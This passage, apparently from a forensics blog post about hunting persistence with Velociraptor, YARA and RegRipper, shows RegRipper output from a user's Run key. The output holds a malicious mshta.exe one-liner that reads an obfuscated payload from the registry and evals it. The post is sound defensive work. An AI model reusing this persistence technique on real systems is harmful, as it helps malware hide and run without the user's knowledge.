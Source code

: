 Unlike the previous artifact, this one simply returns the YARA hit, but
because we do not have any context on which value contained the
signature, or even if it had been deleted. Luckily we uploaded the raw
registry hive for further analysis, and we can use a tool such as
RegRipper to extract more information from the hive:

``` {.sourceCode .console}
$ wine rip.exe -p user_run -r
/tmp/velociraptor/clients/C.c916a7e445eb0868/uploads/F.078739d6/ntfs/
%5C%5C.%5CC%3A%5CUsers%5Cuser1%5CNTUSER.DAT
Launching user_run v.20140115
user_run v.20140115
(NTUSER.DAT) [Autostart] Get autostart key contents from NTUSER.DAT hive

Software\Microsoft\Windows\CurrentVersion\Run
LastWrite Time Thu Sep 27 01:19:08 2018 (UTC)
 OneDrive: "C:\Users\user1\AppData\Local\Microsoft\OneDrive\OneDrive.exe"
   /background
 c:\windows\system32\mshta.exe: about:<script>c1hop="X642N10";
   R3I=new%20ActiveXObject("WScript.Shell");
   QR3iroUf="I7pL7";k9To7P=R3I.RegRead("HKCU\\software\\
   bkzlq\\zsdnhepyzs");J7UuF1n="Q2LnLxas";eval(k9To7P);JUe5wz3O="zSfmLod";</script>
```

Note above how we can simply retrieve the uploaded file from
Velociraptor\'s filestore. Velociraptor stores uploaded files on the
filesystem within the flow\'s directory.

Conclusions
-----------

In this blog post we saw how to utilize YARA to find suspicious
powershell persistence mechanisms. YARA is a powerful tool and using
Velociraptor\'s artifacts we can apply it to files, registry values, and
raw NTFS files such as locked registry hives and the pagefile.

We also saw some of the inherent problems with relying on the
`HKEY_USERS` registry hive for detection - the hive is only present when
a user is logged in so when we hunt, we might miss those users who are
currently logged out. We saw how YARA can be used to detect suspicious
patterns in raw registry hive files and how artifacts may retrieve those
files for further analysis.
